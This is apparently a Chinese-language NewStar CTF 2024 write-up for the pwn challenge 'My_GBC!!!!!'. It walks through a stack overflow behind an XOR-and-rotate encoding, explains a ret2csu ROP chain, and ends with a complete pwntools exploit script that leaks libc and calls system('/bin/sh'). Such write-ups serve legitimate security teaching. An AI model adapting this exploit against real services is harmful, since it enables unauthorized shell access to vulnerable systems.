 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# My_GBC\!\!\!\!\!

先将程序拖入ida分析

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  initial(argc, argv, envp);
  write(1, "It's an encrypt machine.\nInput something: ", 0x2CuLL);
  len = read(0, buf, 0x500uLL);
  write(1, "Original: ", 0xBuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  encrypt(buf, (unsigned __int8)key, (unsigned int)len);
  write(1, "Encrypted: ", 0xCuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  return 0;
}
```

发现存在一个简单的栈溢出，并且输入的数据经过了某种加密处理，异或后左移

```C
__int64 __fastcall encrypt(__int64 a1, char a2, int a3)
{
  __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (int)i >= a3 )
      break;
    *(_BYTE *)((int)i + a1) ^= a2;
    *(_BYTE *)(a1 + (int)i) = __ROL1__(*(_BYTE *)((int)i + a1), 3);
  }
  return result;
}
```

运行程序后发现，栈溢出时，rdx寄存器值为1，而程序中能利用的函数read，write的三参都是长度，这对我们利用十分不利，因此我们选择ret2csu

![ret2csu](/assets/images/wp/2024/week2/my-gbc_1.png)

这是csu的代码片段，第一段代码能将r12, r13, r14分别mov到rdi, rsi, rdx，这样我们便能控制rdx，即控制函数的三参，并且后面还有call [r15+rbx*8]，能控制程序的走向；第二段代码则是一长串的pop，配合上述代码，即可达到ROP，控制程序流程

需要注意的是，call后面有add rbx, 1; cmp rbp, rbx; jnz...，我们需要控制rbx = 0, rbp = 1

对于加密函数，异或和左移都是可逆运算，我们只需对我们输入的内容先右移后异或0x5A即可

```Python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

k = 1
if k:
    addr = ''
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./My_GBC!!!!!')
elf = ELF('./My_GBC!!!!!')
libc = ELF('./libc.so.6')

def debug():
    gdb.attach(p,'b *0x401399\nc\n')

def ror(val, n):
    return ((val >> n) | (val << (8 - n))) & 0xFF

def decrypt(data: bytes, key: int):
    decrypted_data = bytearray()
    for byte in data:
        byte = ror(byte, 3)
        byte ^= key
        decrypted_data.append(byte)
    return decrypted_data

def csu_1(arg1, arg2, arg3, func=0, rbx=0, rbp=1):
    r12 = arg1
    r13 = arg2
    r14 = arg3
    r15 = func
    payload = p64(0x4013AA)
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    return payload

def csu_2():
    payload = p64(0x401390)
    return payload

add_rsp_8_ret = 0x401016
ret = 0x40101a
payload = b'a' * 0x18 + csu_1(1, elf.got.read, 0x100, elf.got.write) + csu_2()
payload += csu_1(0, 0x404090, 0x50, elf.got.read) + csu_2()
payload += csu_1(0, 0, 0, 0x404098) + csu_2() + p64(ret)
payload += csu_1(0x4040A0, 0, 0, 0x404090) + csu_2()
# debug()
ru(b'Input something:')
s(decrypt(payload, 90))

libc_base = uu64(ru(b'\x7f')[-6:]) - libc.sym.read
success(f"libc_base --> 0x{libc_base:x}")

payload = p64(libc_base + libc.sym.system + 0x0) + p64(add_rsp_8_ret) + b'/bin/sh\x00'
s(payload)

p.interactive()
```
